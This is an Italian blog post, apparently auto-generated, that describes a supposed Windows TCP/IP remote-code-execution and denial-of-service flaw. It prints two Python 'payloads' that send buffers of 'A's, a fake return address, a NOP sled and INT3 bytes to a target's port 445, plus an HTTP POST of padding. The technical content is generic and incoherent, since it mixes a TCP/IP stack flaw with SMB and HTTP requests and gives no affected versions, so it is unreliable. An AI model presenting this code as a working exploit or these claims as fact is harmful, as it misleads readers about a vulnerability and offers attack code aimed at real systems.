 ```yaml
---
layout: post
title: "[dos] Windows TCP/IP - RCE Checker and Denial of Service"
date: 2024-08-28
categories: [security, ransomware]
---
```


# [dos] Windows TCP/IP - RCE Checker and Denial of Service

## Introduzione

La vulnerabilità in esame, identificata come "[dos] Windows TCP/IP - RCE Checker and Denial of Service", riguarda specificatamente il protocollo TCP/IP di Windows, il quale ha un difetto che consente a un attaccante di causare un denial of service o, in alcuni casi, di eseguire codice remoto (RCE). Questa vulnerabilità è stata pubblicata il 28 Agosto 2024.

## Dettagli della vulnerabilità

La vulnerabilità si manifesta quando il sistema Windows non riesce a gestire correttamente le richieste TCP/IP, consentendo a un attaccante di inviare pacchetti di dati malevoli che possono causare un sovraccarico del sistema (DoS), o peggio, l'esecuzione di codice arbitrario. Le versioni del software interessate da questa vulnerabilità non sono state specificate nella descrizione iniziale dell'exploit.

## Esempio di Payload Semplice

Un attaccante può sfruttare questa vulnerabilità utilizzando un semplice payload, come il seguente esempio:

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("target-ip", 445))
buffer = 'A' * 1000
s.send(buffer)
s.close()
```

## Esempio di Payload Avanzato

Per un attacco più sofisticato, un attaccante potrebbe utilizzare un payload più complesso, come il seguente esempio:

```python
import socket
import struct

def create_packet():
    packet = 'A' * 1000
    packet += struct.pack('<L', 0xdeadbeef) # Indirizzo di ritorno
    packet += '\x90' * 16 # NOP sled
    packet += '\xcc' * 400 # Interruzione INT 3
    return packet

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("target-ip", 445))
s.send(create_packet())
s.close()
```

## Procedura per riprodurre la vulnerabilità

1. L'attaccante crea un payload malevolo, come quello mostrato negli esempi.
2. L'attaccante invia il payload al sistema di destinazione utilizzando una connessione TCP/IP.

## Richiesta HTTP

Una possibile richiesta HTTP per inviare il payload potrebbe essere formattata come segue:

```http
POST / HTTP/1.1
Host: target-ip
Content-Length: 1000
Content-Type: application/x-www-form-urlencoded

[A*1000]
```

## Impatto della vulnerabilità

Questa vulnerabilità può causare un sovraccarico del sistema, rendendo l'applicazione inaccessibile agli utenti legittimi (DoS). Nel peggiore dei casi, può consentire all'attaccante di eseguire codice arbitrario nel sistema di destinazione, compromettendone la sicurezza.

## Patch e Mitigazioni

Al momento della pubblicazione, non sono state rilasciate patch ufficiali per questa vulnerabilità. Tuttavia, gli amministratori di sistema possono mitigare l'impatto limitando la quantità di dati accettabili da una singola richiesta TCP/IP.

## Conclusione

La correzione di questa vulnerabilità è fondamentale per mantenere la sicurezza del sistema. Si raccomanda di monitorare le comunicazioni ufficiali del fornitore per eventuali patch o aggiornamenti futuri.

## Considerazioni

Questa vulnerabilità dimostra chiaramente che, nonostante la maturità e la diffusione di Windows, il suo stack TCP/IP non è immune da vulnerabilità di sicurezza. Questo sottolinea l'importanza della revisione del codice e del testing di sicurezza approfondito per tutti i componenti di un sistema, non solo per quelli nuovi o recentemente modificati.

